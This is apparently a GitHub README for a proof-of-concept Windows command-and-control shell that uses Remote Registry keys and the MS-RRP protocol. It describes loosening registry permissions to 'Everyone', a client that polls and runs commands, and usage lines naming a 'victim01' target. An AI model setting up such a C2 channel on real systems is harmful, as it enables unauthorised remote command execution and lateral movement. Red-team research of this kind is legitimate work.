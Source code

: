 # Everything Is A Shell... An asyncrounous shell at least...

## Disclaimer
The shells are all Proof-of-Concept and have only been tested in my lab. They are made to test the if the shells actually work and nothing else. Enjoy :)

## Concept for this repository
This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client and server will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for specific users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are then likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will then check the C2 server for the value of "sleep" to determine how often to check it. 
6. The client then executes whatever command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe victim01
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
